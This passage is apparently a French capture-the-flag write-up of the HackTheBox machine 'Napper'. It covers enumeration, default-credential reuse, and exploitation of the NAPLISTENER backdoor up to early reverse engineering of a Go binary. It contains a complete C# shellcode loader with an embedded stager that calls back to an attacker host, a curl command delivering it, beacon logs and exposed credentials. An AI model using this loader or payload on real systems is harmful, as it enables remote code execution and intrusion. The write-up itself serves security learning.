




# Introduction

Cette box windows avait la particularité de ne pas reposer sur de l'exploitation d'Active Directory comme c'est souvent le cas sur HackTheBox. Même si la première partie pour flag l'user était assez peu technique, la privesc reposait sur du Reverse Engineering d'un binaire codé en Go. Donc j'ai décidé d'en faire un Write Up! On commence par un scan nmap comme d'hab!

# Reconnaissance

Comme précisé dans l'intro, la machine à attaquer ne fait pas partie d'un domaine, on n'a donc pas les ports spécifiques à un controlleur de domaine:

```txt
nmap -sC -sV -p- 10.10.11.240   
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-06 18:51 EST
Nmap scan report for app.napper.htb (10.10.11.240)
Host is up (0.026s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to https://app.napper.htb
|_http-server-header: Microsoft-IIS/10.0
443/tcp open  ssl/http Microsoft IIS httpd 10.0
|_http-generator: Hugo 0.112.3
|_http-server-header: Microsoft-IIS/10.0
|_ssl-date: 2024-01-06T23:53:44+00:00; +2s from scanner time.
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=app.napper.htb/organizationName=MLopsHub/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:app.napper.htb
| Not valid before: 2023-06-07T14:58:55
|_Not valid after:  2033-06-04T14:58:55
| tls-alpn: 
|_  http/1.1
|_http-title: Research Blog | Home 
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 157.02 seconds
```

On a donc juste un serveur `Internet Information Services` qui tourne sur le port 443 / 80 et et qui héberge entre autre le sous-domaine `app.napper.htb`. Après avoir ajouté le nom de domaine dans notre fichier `/etc/hosts` voilà à quoi ressemble le site web hébergé:

<div>
    
</div>

# Enumeration

Ca ressemble à un blog de hacking classique avec un thème hugo, on va tenter deux énumérations: Une sur les chemins d'accès du site et l'autre sur les sous-domaines. Pour l'énumération des sous-domaines avec gobuster, il faut bien passer par l'option `vhost` qui va injecter dans l'en-tête `Host` et pas par l'option `dns` qui elle va se baser sur des requêtes DNS. De plus sur les version récentes, bien penser à mettre l'option `--append-domain` lorsque l'on teste avec le domaine de base.

Pour l'énumération des chemins d'accès, on a pas grand chose de pertinet:

```txt
gobuster dir -u https://napper.htb -k -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://napper.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 145] [--> https://napper.htb/js/]
/css                  (Status: 301) [Size: 146] [--> https://napper.htb/css/]
/page                 (Status: 301) [Size: 147] [--> https://napper.htb/page/]
/tags                 (Status: 301) [Size: 147] [--> https://napper.htb/tags/]
/.                    (Status: 200) [Size: 5602]
/fonts                (Status: 301) [Size: 148] [--> https://napper.htb/fonts/]
/CSS                  (Status: 301) [Size: 146] [--> https://napper.htb/CSS/]
/categories           (Status: 301) [Size: 153] [--> https://napper.htb/categories/]

```

En revanche pour l'énumération des sous-domaines on a quelque chose de plus concluant!

```txt
gobuster vhost -u https://napper.htb -k -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             https://napper.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: internal.napper.htb Status: 401 [Size: 1293]
```

Après avoir ajouté le sous domaine au fichier hosts, on est vite stoppé par une demande d'authentification et après avoir testé les méthodes classiques de confusions de méthodes, on peut se décider à aller chercher dans le contenu du blog en quête d'indices:

<div>
    
</div>

L'article qui attire naturellement l'attention c'est celui qui traite de la mise en place de la `Basic Authentication` sur un IIS avec Powershell:

<div>
    
</div>

Ici le tutoriel suivi utilise une `Secure-String` basée sur un mot de passe en clair, on peut donc tester les identifiants: `example` / `ExamplePassword` au cas où le propriétaire du blog aurait simplement copié collé le contenu du tutoriel, et Bingo!

```txt
curl -k https://internal.napper.htb -u example:ExamplePassword -I     
HTTP/2 200 
content-length: 4115
content-type: text/html
last-modified: Thu, 08 Jun 2023 11:54:48 GMT
accept-ranges: bytes
etag: "21184609ad91:0"
server: Microsoft-IIS/10.0
date: Sun, 07 Jan 2024 00:13:09 GMT
```

On a maintenant accès au sous domaine interne du site avec un article en plus:

<div>
    
</div>

# Accès

Hmm il est question d'une backdoor nommée `NAPLISTENER` (qui existe vraiment, il y'a de la doc à son sujet [ici](https://www.elastic.co/security-labs/naplistener-more-bad-dreams-from-the-developers-of-siestagraph)). Cette backdoor serait donc testée actuellement par l'équipe d'analyse de malware sur la machine, il va nous falloir trouver un moyen d'y avoir accès. En se renseignant un peu on découvre que la backdoor est censée exécuté un assembly .NET encodé en Base64 et passé à l'endpoint `/ews/MsExgHealthCheckd/` dans le paramètre `sdafwe3rwe23`. Pour vérifier que le serveur IIS est bien infecté par la backdoor on peut remarquer la présence d'un en-tête `server` supplémentaire renvoyé lorsque l'on accède à l'endpoint utilisé par la backdoor:

```txt
curl -k https://10.10.11.240/ews/MsExgHealthCheckd/:443 -I
HTTP/2 404 
content-length: 0
content-type: text/html; charset=utf-8
server: Microsoft-IIS/10.0 Microsoft-HTTPAPI/2.0
x-powered-by: ASP.NET
date: Sun, 07 Jan 2024 00:30:59 GMT
```

l'en tête `Microsoft-HTTPAPI/2.0` correspond à l'espace de noms .NET `System.Net` qui définit la classe `HttpListener` utilisée par la backdoor.
Pour construire mon payload je vais utiliser un `stager Cobalt Strike`, l'assembly se chargera de l'injecter en mémoire en utilisant une méthode classique (on est sur HackTheBox, vu le niveau de difficulté de la box, l'AV n'est probablement pas activé).

Pour compiler l'assembly on va utiliser Visual Studio et Créer un nouveau projet C# de type `Bibliothèque de classes`. Voilà le code du programme qui va charger notre stager dans la mémoire non managée:

```cs
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace DropperMeterpreter
{

    public static class Globals
    {
        public static byte[] shellcode = new byte[796] { 0xfc, 0xe8, 0x89, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xd2, 0x64, 0x8b, 0x52, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf0, 0x52, 0x57, 0x8b, 0x52, 0x10, 0x8b, 0x42, 0x3c, 0x01, 0xd0, 0x8b, 0x40, 0x78, 0x85, 0xc0, 0x74, 0x4a, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x8b, 0x58, 0x20, 0x01, 0xd3, 0xe3, 0x3c, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0x31, 0xc0, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0x38, 0xe0, 0x75, 0xf4, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe2, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x58, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x86, 0x5d, 0x68, 0x6e, 0x65, 0x74, 0x00, 0x68, 0x77, 0x69, 0x6e, 0x69, 0x54, 0x68, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0x31, 0xff, 0x57, 0x57, 0x57, 0x57, 0x57, 0x68, 0x3a, 0x56, 0x79, 0xa7, 0xff, 0xd5, 0xe9, 0x84, 0x00, 0x00, 0x00, 0x5b, 0x31, 0xc9, 0x51, 0x51, 0x6a, 0x03, 0x51, 0x51, 0x68, 0x50, 0x00, 0x00, 0x00, 0x53, 0x50, 0x68, 0x57, 0x89, 0x9f, 0xc6, 0xff, 0xd5, 0xeb, 0x70, 0x5b, 0x31, 0xd2, 0x52, 0x68, 0x00, 0x02, 0x40, 0x84, 0x52, 0x52, 0x52, 0x53, 0x52, 0x50, 0x68, 0xeb, 0x55, 0x2e, 0x3b, 0xff, 0xd5, 0x89, 0xc6, 0x83, 0xc3, 0x50, 0x31, 0xff, 0x57, 0x57, 0x6a, 0xff, 0x53, 0x56, 0x68, 0x2d, 0x06, 0x18, 0x7b, 0xff, 0xd5, 0x85, 0xc0, 0x0f, 0x84, 0xc3, 0x01, 0x00, 0x00, 0x31, 0xff, 0x85, 0xf6, 0x74, 0x04, 0x89, 0xf9, 0xeb, 0x09, 0x68, 0xaa, 0xc5, 0xe2, 0x5d, 0xff, 0xd5, 0x89, 0xc1, 0x68, 0x45, 0x21, 0x5e, 0x31, 0xff, 0xd5, 0x31, 0xff, 0x57, 0x6a, 0x07, 0x51, 0x56, 0x50, 0x68, 0xb7, 0x57, 0xe0, 0x0b, 0xff, 0xd5, 0xbf, 0x00, 0x2f, 0x00, 0x00, 0x39, 0xc7, 0x74, 0xb7, 0x31, 0xff, 0xe9, 0x91, 0x01, 0x00, 0x00, 0xe9, 0xc9, 0x01, 0x00, 0x00, 0xe8, 0x8b, 0xff, 0xff, 0xff, 0x2f, 0x76, 0x31, 0x73, 0x42, 0x00, 0x91, 0xe4, 0x7f, 0x2c, 0x93, 0x5a, 0xf5, 0x15, 0x23, 0x10, 0xfc, 0x75, 0xf8, 0x6c, 0x52, 0xbf, 0x45, 0xb1, 0xe3, 0xf5, 0x44, 0xe7, 0x69, 0x95, 0xbd, 0x40, 0xf9, 0xdf, 0x85, 0x7b, 0xf8, 0x48, 0x89, 0x6b, 0x8c, 0x5e, 0x2b, 0x9c, 0x13, 0x33, 0x12, 0xd0, 0x3c, 0x68, 0x5a, 0xfd, 0x08, 0xd9, 0x1e, 0x72, 0xf3, 0xeb, 0x48, 0xb3, 0xbf, 0x4c, 0x4c, 0x40, 0x04, 0x47, 0x40, 0x03, 0x27, 0x4e, 0x05, 0x9c, 0xd2, 0x21, 0x28, 0x4b, 0xea, 0xb9, 0xd0, 0x00, 0x55, 0x73, 0x65, 0x72, 0x2d, 0x41, 0x67, 0x65, 0x6e, 0x74, 0x3a, 0x20, 0x4d, 0x6f, 0x7a, 0x69, 0x6c, 0x6c, 0x61, 0x2f, 0x35, 0x2e, 0x30, 0x20, 0x28, 0x63, 0x6f, 0x6d, 0x70, 0x61, 0x74, 0x69, 0x62, 0x6c, 0x65, 0x3b, 0x20, 0x4d, 0x53, 0x49, 0x45, 0x20, 0x31, 0x30, 0x2e, 0x30, 0x3b, 0x20, 0x57, 0x69, 0x6e, 0x64, 0x6f, 0x77, 0x73, 0x20, 0x4e, 0x54, 0x20, 0x36, 0x2e, 0x32, 0x3b, 0x20, 0x54, 0x72, 0x69, 0x64, 0x65, 0x6e, 0x74, 0x2f, 0x36, 0x2e, 0x30, 0x3b, 0x20, 0x54, 0x6f, 0x75, 0x63, 0x68, 0x29, 0x0d, 0x0a, 0x00, 0x14, 0xe6, 0x2a, 0x4c, 0x19, 0xd4, 0x72, 0xa3, 0xaf, 0x30, 0x28, 0xa6, 0x48, 0x59, 0xe9, 0x21, 0x90, 0xf4, 0xa2, 0x8f, 0x98, 0x93, 0x43, 0x25, 0x5b, 0x28, 0x37, 0x43, 0xf4, 0xc6, 0x03, 0x7c, 0xdc, 0xde, 0x63, 0x45, 0xd4, 0xea, 0xef, 0x80, 0x23, 0x50, 0xf8, 0x69, 0x15, 0x27, 0xba, 0x3f, 0x1e, 0x8c, 0xb0, 0x17, 0xba, 0xe0, 0x0c, 0x74, 0x2c, 0x83, 0xca, 0x42, 0xe3, 0x88, 0x71, 0xfe, 0xc1, 0x74, 0x33, 0x7e, 0x55, 0x7c, 0x9c, 0x79, 0x5f, 0xf2, 0x64, 0x89, 0x54, 0x24, 0x62, 0x80, 0xb3, 0x99, 0x01, 0xbd, 0x94, 0x71, 0xbf, 0xc3, 0x6a, 0x81, 0xaf, 0x62, 0xd2, 0x23, 0xea, 0x06, 0x56, 0xe7, 0x54, 0xa5, 0xdb, 0xa0, 0x0f, 0xf6, 0x3d, 0xd1, 0x7a, 0x3e, 0x8a, 0xce, 0xd7, 0xf4, 0x6d, 0x3b, 0x4e, 0x0e, 0x85, 0x35, 0x62, 0xbc, 0x2d, 0xa4, 0xdd, 0x9b, 0x52, 0x2f, 0x69, 0x4d, 0xaf, 0x86, 0xad, 0x33, 0x96, 0x38, 0xb1, 0xfc, 0x8e, 0x4f, 0xed, 0x0c, 0xac, 0xd2, 0xe8, 0xfd, 0x67, 0x35, 0x95, 0x24, 0x1f, 0x9c, 0xef, 0x9b, 0x3b, 0x32, 0x48, 0xfe, 0xc2, 0x8a, 0x28, 0xc6, 0xa0, 0xf9, 0x9c, 0x9d, 0xbe, 0xdf, 0xd5, 0x39, 0x91, 0x39, 0xcf, 0x0f, 0xf9, 0x00, 0x05, 0x04, 0x00, 0x63, 0x69, 0x53, 0xf5, 0x84, 0xc6, 0x1e, 0x97, 0x04, 0x74, 0x0a, 0xde, 0x42, 0x15, 0xcd, 0x0f, 0xad, 0xe7, 0x3a, 0x23, 0x34, 0xfc, 0x98, 0x21, 0x82, 0x8d, 0x2d, 0xbd, 0x67, 0xd1, 0x00, 0xd0, 0xe9, 0x15, 0x90, 0xec, 0x1e, 0x66, 0x99, 0x57, 0x00, 0x68, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x6a, 0x40, 0x68, 0x00, 0x10, 0x00, 0x00, 0x68, 0x00, 0x00, 0x40, 0x00, 0x57, 0x68, 0x58, 0xa4, 0x53, 0xe5, 0xff, 0xd5, 0x93, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x01, 0xd9, 0x51, 0x53, 0x89, 0xe7, 0x57, 0x68, 0x00, 0x20, 0x00, 0x00, 0x53, 0x56, 0x68, 0x12, 0x96, 0x89, 0xe2, 0xff, 0xd5, 0x85, 0xc0, 0x74, 0xc6, 0x8b, 0x07, 0x01, 0xc3, 0x85, 0xc0, 0x75, 0xe5, 0x58, 0xc3, 0xe8, 0xa9, 0xfd, 0xff, 0xff, 0x31, 0x30, 0x2e, 0x31, 0x30, 0x2e, 0x31, 0x35, 0x2e, 0x32, 0x38, 0x00, 0x3a, 0xde, 0x68, 0xb1 };
    }

    public class Run
    {
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, int dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
        public Run()
        {

            IntPtr alloc = VirtualAlloc(IntPtr.Zero, Globals.shellcode.Length, (uint)(AllocationType.Commit | AllocationType.Reserve), (uint)MemoryProtection.ExecuteReadWrite);
            if (alloc == IntPtr.Zero)
            {
                return;
            }

            Marshal.Copy(Globals.shellcode, 0, alloc, Globals.shellcode.Length);
            IntPtr threadHandle = CreateThread(IntPtr.Zero, 0, alloc, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(threadHandle, 0xFFFFFFFF);
        }
    }
    [Flags]
    public enum FreeType
    {
        Decommit = 0x4000,
        Release = 0x8000,
    }

    [Flags]
    public enum AllocationType
    {
        Commit = 0x1000,
        Reserve = 0x2000,
        Decommit = 0x4000,
        Release = 0x8000,
        Reset = 0x80000,
        Physical = 0x400000,
        TopDown = 0x100000,
        WriteWatch = 0x200000,
        LargePages = 0x20000000
    }

    [Flags]
    public enum MemoryProtection
    {
        Execute = 0x10,
        ExecuteRead = 0x20,
        ExecuteReadWrite = 0x40,
        ExecuteWriteCopy = 0x80,
        NoAccess = 0x01,
        ReadOnly = 0x02,
        ReadWrite = 0x04,
        WriteCopy = 0x08,
        GuardModifierflag = 0x100,
        NoCacheModifierflag = 0x200,
        WriteCombineModifierflag = 0x400
    }
}
```

Je ne vais pas rentrer dans les détails étant donné que c'est une boilerplate de shellcode très classique. Néanmoins il est important de noter qu'étant donné que le processus qui va charger notre assembly est un processus `x86`, il faut donc générer un shellcode `x86` et pas `x64` et idem pour la compilation dans Visual Studio, bien mettre l'option `Any CPU` pour la cible. Je pense que cela peut poser problème dans des cas d'accès au `PEB` par exemple (de manière générale pour les injections de code dans des processus, bien respecter l'architecture du processus hôte). Une fois cela pris en compte on peut tester l'envoi de notre payload comme ceci:

```txt
curl  -k "https://10.10.11.240:443/ews/MsExgHealthCheckd/" --data-urlencode "sdafwe3rwe23=$(base64 DropperMeterpreter.dll)"
```

Et on obtient bien une session sur le `TeamServer`:

<div>
    
</div>

Cette sessions tourne sous l'utilisateur `ruben` à un niveau d'intégrité standard:

```txt
USER INFORMATION
----------------

User Name    SID                                           
============ ==============================================
napper\ruben S-1-5-21-1567175541-2888103920-4161894620-1001

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                   Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

Après avoir récupéré le flag user à `C:\Users\ruben\Desktop\user.txt`, on commence à chercher aux endroits habituels pour pour trouver un moyen de privesc:

* `C:\inetpub` (là où est stocké le code et les données d'un serveur IIS)
* `C:\Users\ruben` (Le dossier utilisateur)
* `C:\Program Files\` (Le dossier d'installation des programmes par défault)

On peut aussi essayer de lister les ports ouverts en interne pour trouver des services internes:

```txt
Proto  Local Address          Foreign Address        State           PID

TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       896
TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       2896
TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       672
TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       516
TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1080
TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1464
TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       652
TCP    10.10.11.240:139       0.0.0.0:0              LISTENING       4
TCP    127.0.0.1:9200         0.0.0.0:0              LISTENING       4852
TCP    127.0.0.1:9300         0.0.0.0:0              LISTENING       4852
TCP    [::]:80                [::]:0                 LISTENING       4
TCP    [::]:135               [::]:0                 LISTENING       896
TCP    [::]:443               [::]:0                 LISTENING       4
TCP    [::]:445               [::]:0                 LISTENING       4
TCP    [::]:49664             [::]:0                 LISTENING       672
TCP    [::]:49665             [::]:0                 LISTENING       516
TCP    [::]:49666             [::]:0                 LISTENING       1080
TCP    [::]:49667             [::]:0                 LISTENING       1464
TCP    [::]:49668             [::]:0                 LISTENING       652
UDP    0.0.0.0:123            *:*                                    6032
UDP    0.0.0.0:5050           *:*                                    2896
UDP    0.0.0.0:5353           *:*                                    1880
UDP    0.0.0.0:5355           *:*                                    1880
UDP    10.10.11.240:137       *:*                                    4
UDP    10.10.11.240:138       *:*                                    4
UDP    10.10.11.240:1900      *:*                                    4668
UDP    10.10.11.240:62071     *:*                                    4668
UDP    127.0.0.1:1900         *:*                                    4668
UDP    127.0.0.1:49664        *:*                                    2752
UDP    127.0.0.1:62072        *:*                                    4668
UDP    [::]:123               *:*                                    6032
UDP    [::]:5353              *:*                                    1880
UDP    [::]:5355              *:*                                    1880
UDP    [::1]:1900             *:*                                    4668
UDP    [::1]:62070            *:*                                    4668
UDP    [fe80::b5d1:843e:603a:e055%10]:1900  *:*                                    4668
UDP    [fe80::b5d1:843e:603a:e055%10]:62069  *:*                                    4668
```

Les ports 9200 et 9300 sont associés au service `Elasticsearch`. C'est dans le dossier temporaire `C:\Temp` qu'on trouve le code du blog:

```txt
[01/07 10:38:05] beacon> ls
[01/07 10:38:05] [*] Tasked beacon to list files in .
[01/07 10:38:05] [+] host called home, sent: 19 bytes
[01/07 10:38:05] [*] Listing: c:\Temp\www\internal\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     06/09/2023 00:18:40   archetypes
          dir     06/08/2023 11:14:20   assets
          dir     06/09/2023 00:18:40   content
          dir     06/08/2023 11:14:20   data
          dir     06/08/2023 11:14:20   layouts
          dir     06/09/2023 00:18:41   public
          dir     06/09/2023 00:18:40   resources
          dir     06/08/2023 11:14:20   static
          dir     06/09/2023 00:18:41   themes
 0b       fil     06/09/2023 00:18:40   .hugo_build.lock
 1003b    fil     06/09/2023 00:18:40   hugo.toml
```

Dans le dossier `content` qui contient le contenu des articles en MarkDown on remarque un article qui n'est pas encore publié sur le blog

```txt
---
title: "**INTERNAL** Getting rid of LAPS"
description: Replacing LAPS with out own custom solution
date: 2023-07-01
draft: true 
tags: [internal, sysadmin] 
---

# Intro

We are getting rid of LAPS in favor of our own custom solution. 
The password for the `backup` user will be stored in the local Elastic DB.

IT will deploy the decryption client to the admin desktops once it it ready. 

We do expect the development to be ready soon. The Malware RE team will be the first test group.
```

Il explique que le serveur Elasticsearch est entre autre utilisé pour garder le mot de passe de l'utilisateur `backup` et que la machine implémente une solution custom pour le générer à la place de [LAPS](https://www.it-connect.fr/chapitres/quest-ce-que-microsoft-laps/). Dans le dossier `internal-laps-alpha` On trouve la version alpha du système LAPS custom:

```txt
[01/07 11:08:24] beacon> cd internal-laps-alpha
[01/07 11:08:24] [*] cd internal-laps-alpha
[01/07 11:08:24] [+] host called home, sent: 27 bytes
[01/07 11:08:26] beacon> ls
[01/07 11:08:26] [*] Tasked beacon to list files in .
[01/07 11:08:26] [+] host called home, sent: 19 bytes
[01/07 11:08:26] [*] Listing: c:\Temp\www\internal\content\posts\internal-laps-alpha\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 82b      fil     06/09/2023 00:28:35   .env
 12mb     fil     06/09/2023 00:20:07   a.exe
```

On télécharge les deux fichiers pour pouvoir en faire une analyse plus approfondie.

# Rétro-ingéniérie

Le premier fichier contient un ensemble de variables d'environnement et le second est un exécutable Windows:

```txt
cat .env
ELASTICUSER=user
ELASTICPASS=DumpPassword\$Here

ELASTICURI=https://127.0.0.1:9200

file a.exe
a.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 13 sections
```

On charge le binaire dans IDA et on découvre que le binaire a été codé en Go ce qui va nous compliquer un peu la tâche. Heureusement le binaire n'est pas complètement strippé ce qui fait qu'entre autre les noms des `RTTI` seront toujours présents ce qui ne sera pas du luxe pour faire le retypage.
